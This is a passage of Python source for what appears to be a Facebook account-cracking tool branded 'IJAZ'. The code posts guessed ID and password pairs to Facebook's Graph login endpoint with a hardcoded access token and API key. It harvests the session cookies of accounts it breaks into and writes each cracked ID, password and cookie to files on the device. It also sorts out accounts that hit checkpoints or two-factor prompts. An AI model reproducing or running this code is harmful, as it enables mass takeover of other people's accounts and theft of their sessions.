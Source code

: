 "access_token": "350685531728|62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": "8b59ed89-4b88-4f69-a1ed-dfea59e76839",
"currently_logged_in_userid": "0",
"locale": "en_US",
"client_country_code": "US",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d",}
                        headers = {
    'authority': 'z-m-static.xx.fbcdn.net',
    'accept': 'image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8',
    'accept-language': 'en-US,en;q=0.9,ur-PK;q=0.8,ur;q=0.7',
    'referer': 'https://m.facebook.com/',
    'sec-ch-ua': '"Not:A-Brand";v="99", "Chromium";v="112"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"Linux"',
    'sec-fetch-dest': 'image',
    'sec-fetch-mode': 'no-cors',
    'sec-fetch-site': 'cross-site',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        print('\r\r\033[1;32m [IJAZ-OK] '+ids+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        #print("\r\r\033[1;33m Cookie: "+coki)
                                        open('/sdcard/IJAZ-COKIE.txt','a').write(ids+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/IJAZ-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                        elif twf in str(po):
                                        if 'y' in pcp:
                                                print('\r\r \033[1;34m[IJAZ-2F] '+ids+' | '+pas)
                                                twf.append(ids)
                                                break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;205m [IJAZ-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                                        else:
                                                open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                        else:
                                        continue
                loop+=1
        except Exception as e:
                pass
def api6(ids,names,passlist):
	global loop,oks,cps
	sys.stdout.write('\r\r\033[1;37m [IJAZ-M6] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
	session = requests.Session()
	try:
		first = names.split(' ')[0]
		try: